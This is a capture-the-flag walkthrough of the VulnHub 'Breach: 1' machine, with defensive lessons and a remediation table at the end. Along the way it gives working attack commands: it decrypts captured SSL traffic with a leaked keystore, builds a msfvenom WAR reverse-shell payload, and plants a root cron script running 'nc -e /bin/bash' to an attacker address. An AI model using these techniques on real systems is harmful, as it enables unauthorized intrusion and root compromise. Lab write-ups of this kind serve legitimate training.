





# Breach: 1 — Writeup

| | |
|-|-|
| **Target IP** | 192.168.110.140 (host-only, static) |
| **Difficulty** | Beginner-Intermediate |
| **OS** | Linux |
| **Root Flag** | root shell via writable cron script |
| **Source** | [VulnHub](https://www.vulnhub.com/entry/breach-1,152/) |

## Attack Summary

nmap (IDS active) → Base64 creds in page source → employee portal → Wireshark pcap + JKS keystore decryption → SSL traffic → WAR reverse shell → exiftool image metadata → su blumbergh → sudo tee writable cron script → root

## Methodology

1. Network discovery and port scan
2. Enumerate web application — source code analysis
3. Download and decrypt SSL pcap with keystore
4. Generate and upload malicious WAR file
5. Enumerate filesystem — exiftool on image file
6. Switch users using discovered credentials
7. Abuse writable root cron script via sudo tee

---

## Step 1: Network Discovery

```bash
sudo netdiscover -i eth1 -r 192.168.110.0/24
nmap -Pn 192.168.110.140
```

Note: Most ports appear open due to an active IDS on the machine. Manual enumeration of port 80 is more useful than a full service scan.



---

## Step 2: Web Enumeration — Hidden Credentials

Browse to `http://192.168.110.140`. View the page source. An HTML comment contains a double Base64-encoded credential string.

Decode twice (e.g., with HackBar):

```bash
echo "BASE64_STRING" | base64 -d | base64 -d
```

This yields a username and password for the Employee Portal.



---

## Step 3: Employee Portal → SSL Capture + Keystore

Log in to the portal. The inbox contains three messages:
- Message 3 contains a link to an SSL certificate file and a downloadable `.keystore` (JKS format).

Convert the keystore to PKCS12 format:

```bash
keytool -importkeystore \
  -srckeystore keystore \
  -destkeystore mykeystore.p12 \
  -deststoretype PKCS12 \
  -srcalias tomcat
# Password: tomcat (default)
```

Open the pcap in Wireshark. Configure SSL decryption:
`Edit → Preferences → Protocols → SSL → Edit` — add: IP `192.168.110.140`, port `8443`, keystore path, password `tomcat`.

Follow the SSL stream. Decode any Base64 strings found to discover Tomcat credentials and a URL for a Java file upload endpoint.



---

## Step 4: WAR Reverse Shell via Tomcat

Generate a malicious WAR file:

```bash
msfvenom -p java/jsp_shell_reverse_tcp \
  LHOST=192.168.110.128 LPORT=4444 \
  -f war > update.war
```

Upload it through the Java file upload page found in the decrypted traffic.

Start a Metasploit handler:

```
use exploit/multi/handler
set payload java/meterpreter/reverse_tcp
set LHOST 192.168.110.128
set LPORT 4444
exploit
```

Browse to the uploaded WAR path to trigger execution.

Upgrade to a TTY:

```bash
python -c "import pty; pty.spawn('/bin/bash')"
```



---

## Step 5: Lateral Movement — exiftool Image Metadata

```bash
cd /home/milton
ls -la
exiftool bill.png
# Password: coffeestains
```

Check `/etc/passwd` for available users, then switch:

```bash
su blumbergh
# password: coffeestains
id
```

---

## Step 6: Privilege Escalation — Writable Cron Script via sudo tee

Discover a cleanup script running as root every 3 minutes:

```bash
ls -la /usr/share/cleanup/tidyup.sh
sudo -l
# blumbergh can run: sudo /usr/bin/tee /usr/share/cleanup/tidyup.sh
```

Replace the script with a reverse shell payload:

```bash
echo "nc -e /bin/bash 192.168.110.128 8443" | sudo tee /usr/share/cleanup/tidyup.sh
```

Set up a listener on the attacker machine:

```bash
nc -lvv -p 8443
```

Wait up to 3 minutes for the cron job to fire and deliver the root shell.



---

## Lessons Learned

1. **Hidden credentials in HTML comments** are a classic mistake — always audit page source for Base64 blobs and comments
2. **SSL/TLS keystore files exposed via web** allow full traffic decryption; never store `.keystore` files in web-reachable locations
3. **Image metadata (exiftool)** can leak passwords embedded by careless users or developers
4. **Writable cron scripts + sudo tee** is a reliable privesc path when a user can overwrite a root-owned script via a sudo binary

## Remediation

| Vulnerability | Fix |
|---|---|
| Credentials in HTML comments | Remove all comments from production HTML; use server-side configuration |
| Exposed JKS keystore | Store cryptographic material outside the web root; rotate immediately if exposed |
| Image metadata leakage | Strip metadata with `exiftool -all= *.png` before publishing |
| Writable root cron script | Remove unnecessary sudo rules; make cron scripts owned by root and non-writable |
